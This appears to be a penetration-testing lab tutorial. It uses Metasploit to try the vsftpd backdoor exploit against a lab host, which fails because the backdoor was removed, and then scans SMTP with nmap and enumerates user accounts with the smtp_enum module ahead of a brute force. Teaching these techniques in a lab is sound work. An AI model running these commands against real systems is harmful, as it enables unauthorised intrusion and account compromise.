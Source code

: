 That highlights the fact that the backdoor was removed by the administrator.

```
msfconsole
search vsftpd
use 0
set RHOSTS 10.2.17.5
show info
```

The point here being is that that backdoor has been disabled by the administrator. If it wasn't disabled and port 6200 was open, then we would have been able to obtain a telnet session or rather a standard bash session on the target system.

```
exploit
```

The main lesson here that I wanted to highlight is that in most cases or in some cases, exploits will not work because they may have been patched, and that's something that you have to understand as a penetration tester. You have to understand that from the perspective of a system administrator, whenever there's a vulnerability discovered, they have the ability to update the affected service or they can patch it manually. And one of the patching techniques in this case is to get rid of that backdoor, or to block that port from being accessed via a firewall.

```
rm 49757.py
```

The next step is to perform a brute force attack.

The Linux target system is running SMTP. 

```
nmap -sV -p 25 10.2.17.5
```

```
PORT     STATE SERVICE     VERSION
25/tcp   open  smtp        Postfix smtpd
```
 
SMTP provides us with a easy way of identifying user accounts on a target system, and in this case, a Linux target system. It can help us narrow down our brute force attack in terms of obtaining legitimate credentials that can provide us with access to the target system via FTP and consequently provide us with access through a reverse shell.

How can we perform a brute force on SMTP and identify system accounts really easily?

```
msfconsole
search smtp_enum
use 0
show options
set RHOSTS 10.2.17.5
run
exit
```
